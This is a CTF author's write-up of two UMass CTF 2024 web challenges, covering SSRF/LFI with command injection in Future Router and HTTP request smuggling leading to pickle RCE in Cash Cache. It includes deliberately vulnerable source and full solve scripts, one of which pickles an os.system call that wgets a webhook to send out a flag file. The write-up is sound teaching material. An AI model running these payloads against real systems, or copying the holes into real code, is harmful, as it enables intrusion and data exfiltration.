

Overview
UMass CTF is always a fun (and also quite stressful) time of the year here at UMass. I've been a challenge
author for the past two years and would say I have a bit of author experience now. With that said, I only
contributed to two challs this year
Future Router and
Cash Cache.
Future Router
Future Router was the first challenge I wrote for the CTF, and it was the most solved one as
well. By the end of the CTF it had 63 solves.
This was a sourceless challenge, which many CTF players may scoff at but I thought it would be a cool idea
to have a challenge where an attacker leaks the source. With this in mind, I tried to guide players
with several hints, comments, and information in the challenge so that they could get a rewarding solve (and
learn a lot too).
The first thing players are greeted with is the welcome page with some text as well as a navbar. A player
can click around the site and see the dashboard which shows which devices are on the network with the
router, a cURL page to test cURL'ing webpages, as well as a customer service agent that claims it is out of
service and tells us to try other other features. Most experienced web players will be initially drawn
towards
the cURL endpoint, however my intent is that new players will be guided there by response of
the customer service agent.
So seeing the cURL most players would try to send a request to a remote site, for our case
let's choose umasscybersec.org. However, it does not work because the server cannot make
outbound connections. Players may not know this completely yet, but there is a message above hinting towards
it that reads currently, you can only cURL the devices in the network . At this point, players
might be reminded that the dashboard claims that there are "devices" on the network, all of which are open
one port 80. So let's cURL on of those. Let's say patricks-rock.
We get HTML text in the response, but I put a comment here to try and prevent players from going down a
rabbithole:
<!-- This is a static web server, don't waste too much time here! -->.
Essentially these sites existed as other docker containers in the network statically hosted HTML files. I
put them in, not to confuse players, but to show that there are devices in the network that the router can
reach even though the internet is not available. With this I expected players to research what types of SSRF
attacks you can do on
cURL. More specifically, I wanted players to find that they can try
different
URL schemes on
cURL. Most players
found that you can perform an LFI by reaching out to
file:///etc/passwd.
My hope here is that most players would want to get the source code of the web app (I know I would!). Well,
if we can read arbitrary files, then source would likely be readable as well. Since the server would be the
current process running players would have to look in
/proc/self to find useful files to leak
more about the server process. First, players would need to find what command was running the server. For
this we can run
file:///proc/self/cmdline. This lets us see the command is running
gunicorn with
app:app. Hopefully at this point, players would look at the
gunicorn documentation and find that
the first
app would refer to the module the app was running, in our case
app.py.
Since players would now know the source file, they would have to figure out how to leak it by referencing
its path through the LFI. The intended solution was for users to read /proc/self/cwd/app.py as
cwd would point to the current working directory AKA where the command was ran from. However,
when we ported to infra we reintroduced several unintended solutions that were patched locally such as
reading /proc/self/environ to read the working directory or leaking all the working directories
with the entrypoint found in /proc/1/cmdline. It's kind of unfortunate that these were
introduced, however I did have access to testing this challenge remotely before the competition. I just did
not remember to re-check for them again when testing it on remote. It brings up a good point for next year,
the solve/healthcheck script provided by authors should also check for unintended solutions in the
challenges. Then, make sure that this author check must pass before the challenge can be merged into the
main branch of the repo. Enough of that however, at this point the player should finally get their first
taste of code.
from flask import Flask, request, render_template, Blueprint,send_from_directory
from io import BytesIO
import pycurl
httpserver = Blueprint('httpserver', __name__)
#@httpserver.route("/docs",methods=["GET"])
#def docs():
# return """
# Router Docs
#
# Websocket API
#
# TODO: Document how to talk to
# Karen's customer service module in ../karen/customerservice.py
# Also figure out how to use supervisord better.
#"""
#
# Securely CURL URLs, absolutely no bugs here!
@httpserver.route("/static/")
def static(path):
return send_from_directory('static',path)
@httpserver.route("/cURL",methods=["GET","POST"])
def curl():
if(request.method == "GET"):
return render_template('curl.html')
elif(request.method == "POST"):
try:
buffer = BytesIO()
c = pycurl.Curl()
c.setopt(c.URL, request.json['URL'])
c.setopt(c.WRITEDATA, buffer)
c.perform()
c.close()
DATA = buffer.getvalue()
return {"success":DATA.decode('utf-8')}
except Exception as e:
return {"error":str(e.with_traceback(None))}
@httpserver.route("/customerservice",methods=["GET"])
def customerservice():
return render_template('customerservice.html')
NETWORK = [
{'hostname':'patricks_rock','ports':[{'service':'http','num':80}]},
{'hostname':'spongebobs_spatula','ports':[{'service':'http','num':80}]},
{'hostname':'squidwards_clarinet','ports':[{'service':'http','num':80}]},
]
@httpserver.route("/dash",methods=["GET"])
def dash():
return render_template('dashboard.html',network=NETWORK)
@httpserver.route("/")
def hello_world():
return render_template("index.html")
Similarly we are given another file path so we can then request
file:///proc/self/cwd/karen/customerservice.py and leak the rest of the source code.
import asyncio, os, re
from websockets.server import serve
# Due to security concerns, I, Sheldon J. Plankton have ensured this module
# has no access to any internet service other than those that are
# trusted. This agent will trick Krabs into sending me the secret
# krabby patty formula which I will log into Karen's secret krabby patty
# secret formula file! First, I have to fix a few security bugs!
class KarenCustomerServiceAgent:
SECRET_KEY = bytearray(b"\xe1\x86\xb2\xa0_\x83B\xad\xd7\xaf\x87f\x1e\xb4\xcc\xbf...i will have the secret krabby patty formula.")
Dialogue = {
"Welcome":"Hello! Welcome to the Future Router service bot!",
"Secret formula":"Thank you for your input, we will process your request in 1-3 business days",
"Problem":"Are you having an issue? Please enter the secret krabby patty formula in the dialogue box to continue"
}
def handle_input(self,message):
if ("hello" in message):
return self.Dialogue["Welcome"]
elif("krabby patty" in message):
filtered_message = re.sub(r"(\"|\'|\;|\&|\|)","",message)
os.system(f'echo "{filtered_message}\n" >> /dev/null')
return self.Dialogue["Secret formula"]
elif("problem" in message):
return self.Dialogue["Problem"]
else:
return "I could not understand your message, this agent is under construction. Please use the other implemented features for now!"
def xor_decrypt(self,ciphertext):
plaintext = ""
cipher_arr = bytearray(ciphertext)
for i in range(0,len(cipher_arr)):
plaintext += chr(cipher_arr[i] ^ self.SECRET_KEY[i % len(self.SECRET_KEY)])
return plaintext
KarenAgent = KarenCustomerServiceAgent()
async def respond(websocket):
async for message in websocket:
data = KarenAgent.xor_decrypt(message.encode('latin-1'))
response = KarenAgent.handle_input(data)
await websocket.send(response)
async def main():
async with serve(respond, "0.0.0.0", 9000):
await asyncio.Future() # run forever
asyncio.run(main())
Well, looks like Plankton was planning on exfiltrating the secret krabby patty formula by echo'ing into a
file. Unfortunately, he hasn't figured out how to mitigate command injections yet so he just has a simple
regex. The comment at the top of the source code here is another hint for players that the container will
have no outbound internet access, so they will have to exfiltrate commands some other way. Most players who
got this far figured they could do some bash interpolation to run expressions inside the command. So as long
as they xor'd their input they could run krabby patty $([cmd-here]). My intended solution had
players run a command and write its output to a file like so:
krabby patty $(ls / > /tmp/outfile). Players could then read this file with the LFI and see
that the flag was in the root directory.
import requests as r
from websockets.sync.client import connect
class KarenCustomerServiceAgent:
SECRET_KEY = bytearray(b"\xe1\x86\xb2\xa0_\x83B\xad\xd7\xaf\x87f\x1e\xb4\xcc\xbf...i will have the secret krabby patty formula.")
Dialogue = {
"Welcome":"Hello! Welcome to the Future Router service bot!",
"Secret formula":"Thank you for your input, we will process your request in 1-3 business days",
"Problem":"Are you having an issue? Please enter the secret krabby patty formula in the dialogue box to continue"
}
def xor_decrypt(self,ciphertext):
plaintext = ""
cipher_arr = bytearray(ciphertext)
for i in range(0,len(cipher_arr)):
plaintext += chr(cipher_arr[i] ^ self.SECRET_KEY[i % len(self.SECRET_KEY)])
return plaintext
KarenAgent = KarenCustomerServiceAgent()
HOSTNAME = "localhost:3000"
print("Checking LFI... LFI works!")
r1 = r.post(f"http://{HOSTNAME}/cURL",headers={
'Content-Type':'application/json'
},json={
'URL':'file:///proc/self/cwd/blueprints/../karen/customerservice.py'
})
if "SECRET" in r1.text:
print("Successfully, exploited LFI!")
else:
print("LFI failed... Is the httpserver server working?")
exit()
data = KarenAgent.xor_decrypt(b"krabby patty $(ls / > /tmp/randomfileout)")
with connect(f"ws://{HOSTNAME}/app/") as websocket:
websocket.send(data)
message = websocket.recv()
if "Thank you" in message:
print("Recieved valid response from websocket!")
else:
print("Websocket failed to send and/or recv. Is the socketserver down?")
exit()
r1 = r.post(f"http://{HOSTNAME}/cURL",headers={
'Content-Type':'application/json'
},json={
'URL':'file:///tmp/randomfileout'
})
if "flag" in r1.text:
print("Exfiltrated command via tmp sucessfully!")
print(r1.json()['success'])
else:
print("Command output is not in /tmp . The command did not execute or we were unable to write to /tmp.")
exit()
r1 = r.post(f"http://{HOSTNAME}/cURL",headers={
'Content-Type':'application/json'
},json={
'URL':'file:///flag53958e73c5ba4a66'
})
print(f"Your flag should be {r1.json()['success']}")
Final Thoughts on Future Router
All in all, I hope this challenge was fun and rewarding for players even though there was no source. I
wanted to make a chall with some vulnerabilities I haven't seen in other CTF's so the source code leak was
the way I went. If you're interested in trying out the chall in its intended configuration, I've uploaded
the code
here.
Cash Cache
The second, and final, challenge I made was Cash Cache. For this challenge I wrote a buggy HTTP proxy that
parsed requests incorrectly and allows users to perform HTTP request smuggling to the backend server. This
implementation was very silly as you'll see throughout the challenge. The coverup for my bad coding ability
was the theme of the challenge: Patrick wrote the cache for Mr. Krabs to make more money off customers who
used the site. Theming aside, at the end of the CTF this challenge only had 11 solves,
making it the least solved web challenge. With that said let's rev up those fryers and check out the
challenge.
Before we dive into source, let's take a moment to admire the site... Ahhh, what a work of art. But despite
my inability to frontend webdev properly, there is nothing wrong to see... yet.
The source is identical to what's running on infra because we ran this challenge separately from our main
kCTF cluster. To make it easy, I gave users a docker-compose that built the entire challenge. In that
docker-compose users would see a frontend, backend, and a redis cache. The frontend is our simple nginx
proxy, the backend includes the cache and webserver, and the redis cache stores all the data from the cache.
Here, I intended players to do some code review, specifically looking for interesting vectors. During the
code review, I know most web players should be drawn to a certain part of the source.
if ("X-Cache-UID" in resp.headers and "X-Cache-Hit" not in resp.headers):
resp.headers['X-Cache-Hit'] = "MISSED!"
UID = resp.headers['X-Cache-UID']
if (REDIS_CLIENT.exists(UID)):
cash_elem = pickle.loads(
base64.b64decode(REDIS_CLIENT.get(UID)))
cash_elem.spent += spent
cash_elem.set_resp(request.route, resp)
REDIS_CLIENT.set(UID, base64.b64encode(
pickle.dumps(cash_elem)))
else:
cash_elem = CashElement()
cash_elem.spent += spent
cash_elem.set_resp(request.route, resp)
REDIS_CLIENT.set(UID, base64.b64encode(
pickle.dumps(cash_elem)))
resp.headers['X-CashSpent'] = cash_elem.spent
resp.headers['X-CachedRoutes'] = len(cash_elem.resps)
People who have done web security or played web CTF challenges for a bit know about
pickle. If you
followed the hyperlink, you should be hit with a giant red warning.
Yeah, don't load pickle data that you don't trust. If you control pickle data, you can easily leverage
remote code execution on a system. We can do this by picklng a class with a malicious
__reduce__ function that will be called by pickle when it loads the object. However, there are
plenty of blog posts about pickle vulnerabilities, for the sake of this challenge though we can assume that
if we can control what gets passed into this call, then we can get RCE on the target. I got the idea of
using pickle for serializing this cache data from real python implementations of caches.
Specifically, the SerialFlow challenge from HackTheBox Cyber Apocalypse CTF 2024 introduced
(and acquainted me more than I'd like) to a python memcached client that used pickle when setting or getting
complex objects.
Of course Patrick (I), left a way for users to somehow control the data. In this case, the data for the
pickle.loads call is first fetched from the redis cache, however in cash.py there
(should) be no way to set an arbitrary pickle object into the cache. However, there is an interesting
/debug endpoint in the backend express server.
app.post('/debug', async (req, res) => {
const IPS = req.headers['x-forwarded-for']
.split(',')
.map(ip => ip.trim());
// Developers will be forwarded from
// the krusty krab proxy otherwise
// nginx will be the client ip
const clientIP = IPS.pop();
if (clientIP == '127.0.0.1') {
console.log(req.body)
const UID = req.body.uid ? req.body.uid : undefined;
const DATA = req.body.data ? req.body.data : undefined;
if (UID && DATA) {
const uid_exists = await client.exists(UID);
if (uid_exists) {
await client.set(UID, DATA);
return res.json({ 'success': `Set the entry for ${UID} to "${DATA}"` });
}
}
return res.json({ 'error': `Expected valid uid and data but got ${UID} and ${DATA}` })
}
res.status(403).json({ 'error': 'This is only reachable from within the network!' });
})
So, if you hit the developer debug endpoint then you can set an element in the cache to your arbitrary
data.At this point, I assumed most players realized they would need to send a request to the server as
localhost to the /debug endpoint to then set a malicious pickle value in the cache, then send a
request to trigger this payload to load. However, that is easier said than done (granted I did not leave any
unintended solutions). I imagine that after a few naive attempts at sending requests with the
X-Forwarded-For header set, users would realize they would have to perform a HTTP Request
Smuggling attack to set their own header and hit the endpoint in their smuggled request.
Now that I've tasked the player with the unfortunate task of reading my python code, they should find that
the proxy has the ability to send multiple requests at once. Reading the source code below, there is a
strange encoding that the site accepts called Cash-Encoding and it wants it in
Money! mode.
def parseHTTPReq(text):
try:
Requests = []
stream_text = text.decode()
spent = 0
while (stream_text):
cur, _, stream_text = stream_text.partition("\r\n")
method, route, version = cur.split(' ')
Headers = {}
while (True):
cur, _, stream_text = stream_text.partition("\r\n")
if (cur == ''):
break
key, _, val = cur.partition(':')
Headers[key] = val.replace(' ', '')
if ("Cash-Encoding" in Headers and Headers["Cash-Encoding"] == "Money!"):
body, stream_text, spent = parseCash(stream_text)
else:
body = stream_text
stream_text = ""
Headers['Content-Length'] = len(body)
req = HTTPReq(method, route, version, Headers, body)
Requests.append(req)
return Requests, spent
except Exception as e:
log(e)
return None, None
In most cases, after parsing the headers the cache will set the rest of the request to the body. However,
Cash-Encoding will cause the body to be parsed differently as it will pass the text of the
"stream" we're parsing to the parseCash function.
# The CASH a customer must spend before they can make a new request
# HTTP requests don't grow on trees!
MINIMUM_CASH = 10000000.0
def parseCash(stream_text):
spent = 0
body = ""
while (spent < MINIMUM_CASH):
cur, _, stream_text = stream_text.partition("\r\n")
amount, units = cur.split(' ')
if (units == "DOLLARS"):
amount = float(amount)
elif (units == "CENTS"):
amount = float(amount)/100
else:
raise Exception("I can't understand the units!")
# Dear Reader,
# I wrote this Ternary Operator today because I learned it
# in boating school. For some reason it sometimes cuts off
# the end of requests. But it probably is not a big deal.
# From,
# Patrick Star
index = round(amount) if amount <= len(
stream_text) else len(stream_text) - len(cur)
cur = stream_text[:index]
stream_text = stream_text[index:]
if (len(cur) < amount or amount < 0):
raise Exception("Are you trying to steal from me?")
spent += amount
body += cur
return body, stream_text, spent
As we all know, Mr. Krabs is a very generous businessman and he has allowed users to send multiple HTTP
requests ONLY if they spend ten million dollars. As you might notice,
Cash-Encoding bears a
resemblance to
Transfer-Encoding. People should see that they need to perform a
Content-Length.Cash-Encoding (CL.CE) attack, which should be very similar to
CL.TE
attacks. However, the number of characters you use is linked to dollars you spend, which is a float rather
than an int. Mr. Krabs expected 10 million dollars. However, you can never actually spend the money in a
single request because the
default
nginx policy for request body sizes is limited to 1 megabyte. So we cannot simply send one big
request. You can't send negative dollars due to some checks at the bottom of the loop. However, if we send
NaN DOLLARS as our amount it will cause every single check that compares amount to become false
due to how NaN works in python. Before, if you send a request with
Cash-Encoding, the server
would complain about it being badly formed. However, when you spend
NaN dollars it passes and
updates Cash Spent.

At this point, if you try to naively smuggle a request then Mr. Krabs will yell at you for a badly formed
request. Why? Because the body is buffered depending on how the index is set in the ternary above. However
Patrick left an interesting note in the source code:
I wrote this Ternary Operator today because I learned it in boating school. For some reason it sometimes
cuts off the end of requests. But it probably is not a big deal.
Well, part of the request gets cut off... And upon furthuer inspection it makes sense, specifcally the
index should be set to
len(stream_text) - 1 if the amount is larger than the
remaining length however it is set to
len(stream_text) - len(cur). In most cases this would be
around ~15 characters however an attacker can be very clever here. We cannot simply add spaces to our
request because the parser expects the value and units to be exactly one space apart. At this point, I
wanted users to explore how
float parses user strings. Many that solved the challenge found
that if you include whitespace characters like "\r" or "\t" you could arbitrarily increase the size of the
current line while still preserving how float interprets
NaN. With this, users could make their
current line exactly as long as their smuggled request to allow the parser to set the body of the first
request to 0 and parse the next request normally.
After you get this, it should not take too much more to write a weaponized exploit using a malicious
pickle, base64 encoding it, then sending a smuggled request to see your current uid to that
data. Then you simply visit the site and your pickle will load. I've included my solve script below:
import pickle
import base64
import socket
import requests as r
WEBHOOK = ""
class PickleRCE(object):
def __reduce__(self):
import os
return (os.system, ("wget "+WEBHOOK+"?c=$(cat${IFS}/flag.txt|base64${IFS}-w0)",))
data = base64.b64encode(pickle.dumps(PickleRCE()))
HOSTNAME = "cash-cache.ctf.umasscybersec.org"
PORT = 80
r1 = r.get(f"http://{HOSTNAME}:{PORT}")
UID = r1.cookies['uid']
sock = sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect((HOSTNAME, PORT))
SMUGGLED_REQ = f"""POST /debug HTTP/1.1\r\nHost: localhost\r\nX-Forwarded-For: 127.0.0.1\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: 190\r\nConnection:close\r\n\r\nuid={UID}&data={data.decode()}"""
LEN_OF_REQ = len(SMUGGLED_REQ.encode())
print(LEN_OF_REQ)
HTTP_REQ = f"""GET /test2 HTTP/1.1\r\nHost: {HOSTNAME}:{PORT}\r\nCash-Encoding: Money!\r\nContent-Length: {2+2*LEN_OF_REQ}\r\n\r\nnan{chr(9)*(LEN_OF_REQ-11)} DOLLARS\r\n{SMUGGLED_REQ}"""
sock.send(HTTP_REQ.encode())
resp = sock.recv(4096)
print(resp)
r1 = r.get(f"http://{HOSTNAME}:{PORT}", headers={
'Cookie': f'uid={UID}'
})
print(r1.text)
print("CHECK YOUR WEBHOOK!")
Final Thoughts on Cash Cache
This challenge was a lot, and definitely difficult. However, my main goal was to have people think about how
request smuggling works at the protocol level, how to weaponize it with some clever tricks, then actively
exploiting it via the serialization vector in the cache. I'm hoping people learned something and had fun
with this challenge as I definitely had (mostly) fun writing it as well!
Thanks for reading! Hope you enjoyed UMass CTF 2024!